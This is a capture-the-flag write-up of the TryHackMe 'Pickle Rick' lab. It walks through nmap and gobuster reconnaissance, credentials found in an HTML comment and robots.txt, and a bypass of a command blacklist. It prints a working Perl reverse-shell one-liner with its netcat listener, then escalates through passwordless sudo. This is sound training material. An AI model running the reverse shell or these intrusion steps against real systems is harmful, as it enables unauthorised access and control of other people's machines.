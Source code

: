 [![Needed-nmap](https://img.shields.io/badge/Needed-nmap-blue)](https://nmap.org/)
[![Needed-Gobuster](https://img.shields.io/badge/Needed-Gobuster-orange)](https://github.com/OJ/gobuster)

# Pickle Rick
[*"This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle."*](https://tryhackme.com/room/picklerick)

## Reconnaissance
We start by scanning Rick's computer with nmap in order to identify running services:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ sudo nmap -sC -sV 10.10.245.227 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-18 17:12 CET
Nmap scan report for 10.10.245.227
Host is up (0.060s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3a:a1:8b:57:19:c7:40:19:7a:02:a0:38:4c:76:d7:f2 (RSA)
|   256 5c:ca:53:51:41:cb:f4:29:16:20:6a:a3:12:8a:4e:aa (ECDSA)
|_  256 46:e3:3b:91:14:33:45:75:74:32:5a:05:3e:a8:c1:c9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

SSH port at the moment is useless, so we start by scanning port 80, which runs a http server which gives us a html index page.<br>
Looking closer we notice a comment in the code that gives us a username:
```html
<!-- 
    Note to self, remember username!
    Username: R1ckRul3s
-->
```

Unfortunately we don't know yet where to use it

## Enumeration
Since we have a username, probably there will be some hidden login page leading to a hidden reserved page. To discover these endpoints we use gobuster dir search trying most common web file extension:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://10.10.245.227 -x php,sh,py,txt,cgi,html,css,js
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.245.227
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,cgi,html,css,js,php,sh,py
[+] Timeout:                 10s
===============================================================
2022/03/18 17:15:10 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882] 
/assets               (Status: 301) [Size: 315] [--> http://10.10.245.227/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                    
/robots.txt           (Status: 200) [Size: 17]
...
```

Now we have a login page (`login.php`), a reserved page (`portal.php`) and a `robots.txt` file which contains the word `Wubbalubbadubdub`. May it be a present exagerately nice? Yes! It is the password.<br>
Now we can login and try to get the ingredients

## Exploitation
Unfortunately hereon the flags can all be taken with the same exploit... As soon as we enter we have a remote command execution tool.

![The portal command execution](./portal.png "The portal command execution tool")

Testing it we discover the first ingredient in the current directory using `ls`, but we notice that `cat` command is blacklisted.<br>
Unfortunately blacklist is a bitch: as soon as I get frustrated for the missing cat command I try a reverse shell and I get remote code execution :)
```perl
perl -e 'use Socket;$i="LHOST";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ nc -lnvp 4242     
listening on [any] 4242 ...
connect to [10.18.20.168] from (UNKNOWN) [10.10.245.227] 34620
/bin/sh: 0: can't access tty; job control turned off
$
```

From here we can find the first ingredient in the current directory, the second in `/home/rick/secret\ ingredients` and the third in `/root/3rd.txt`.<br>
How to get the last? We haven't root privileges... Wrong! These are sudo privileges:
```
User www-data may run the following commands on ip-10-10-233-44.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

This means we can execute command `sudo su` and go get the third ingredient